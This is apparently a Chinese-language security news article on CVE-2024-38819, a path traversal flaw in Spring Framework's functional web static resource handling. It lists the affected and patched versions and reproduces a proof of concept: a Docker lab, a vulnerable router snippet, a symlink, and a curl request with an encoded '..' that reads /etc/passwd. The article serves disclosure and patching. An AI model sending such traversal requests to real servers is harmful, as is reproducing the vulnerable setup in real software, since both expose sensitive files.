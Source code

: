 #  CVE-2024-38819：Spring 框架路径遍历 PoC 漏洞已发布   
 Ots安全   2024-12-16 06:15  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafogabPZh5zI6ibBwrIMB9sMD9hibboXce6G4m1uBuyDzWTVlp57MXv08WknLLfwOviaBGM68w4xgzeg/640?wx_fmt=png&from=appmsg "")  
  
Spring Framework 中一个严重漏洞（编号为 CVE-2024-38819，CVSS 评分为 7.5）已被公开披露，同时还披露了一个概念验证 (PoC) 漏洞。此漏洞允许攻击者进行路径遍历攻击，从而可能授予他们访问托管受影响 Spring 应用程序的服务器上的敏感文件的权限。  
  
该漏洞会影响使用功能性 Web 框架 WebMvc.fn 或 WebFlux.fn 提供静态资源的应用程序。该漏洞由 Aeye 安全实验室的 Masato Anzai 发现并报告，攻击者可以利用该漏洞制作恶意 HTTP 请求来访问底层文件系统上的敏感文件。这些文件必须可供存在漏洞的 Spring 应用程序运行的进程访问。  
  
Anzai 还在GitHub 上发布了一个概念验证 (PoC) 漏洞，展示了 CVE-2024-38819 是多么容易被利用。此漏洞对缺乏足够安全措施的静态资源服务应用程序构成了严重威胁。  
  
该漏洞影响 Spring Framework 的以下版本：  
- 5.3.0 至 5.3.40  
  
- 6.0.0 至 6.0.24  
  
- 6.1.0 至 6.1.13  
  
该框架的较旧版本和不受支持的版本同样容易受到攻击。  
  
Spring Framework团队已发布补丁修复该漏洞，强烈建议用户立即升级至以下修复版本：  
- 5.3.x → 升级到5.3.41  
  
- 6.0.x → 升级到6.0.25  
  
- 6.1.x → 升级至6.1.14  
  
**概念验证（PoC）**  
  
**执行步骤**  
  
1.构建 Docker 镜像（Spring Boot 3.3.4，基于 Spring Framework 6.1.13）  
  
```
cd vuln

docker build -t cve-2024-38819-poc
```  
  
  
2.运行容器并向主机公开 8080 端口  
  
```
docker run -d -p 8080:8080 --name cve-2024-38819-poc cve-2024-38819-poc
```  
  
  
3.运行以下命令执行PoC并确认漏洞  
  
```
curl http://localhost:8080/static/link/%2e%2e/etc/passwd
```  
  
  
如果攻击成功，/etc/passwd则会显示文件的内容。  
  
**解释**  
  
1.使用以下代码创建以使用和PathTraversalDemoApplication.java设置静态文件路由：RouterFunctionFileSystemResource  
  
```
public RouterFunction<ServerResponse> staticResourceRouter() {

    return RouterFunctions.resources("/static/**", new FileSystemResource("/app/static/"));

}
```  
  
  
2.将以下命令添加到 Dockerfile 以创建符号链接：  
  
```
RUN ln -s /static /app/static/link
```  
  
  
3.创建一个利用百分比编码通过符号链接遍历目录的有效负载。  
- Path  
：  
/static/link/%2e%2e/etc/passwd  
  
4.使用以下curl命令执行PoC，验证攻击是否成功：  
  
```
curl http://localhost:8080/static/link/%2e%2e/etc/passwd
```  
  
  
如果攻击成功，/etc/passwd则会显示文件的内容。  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
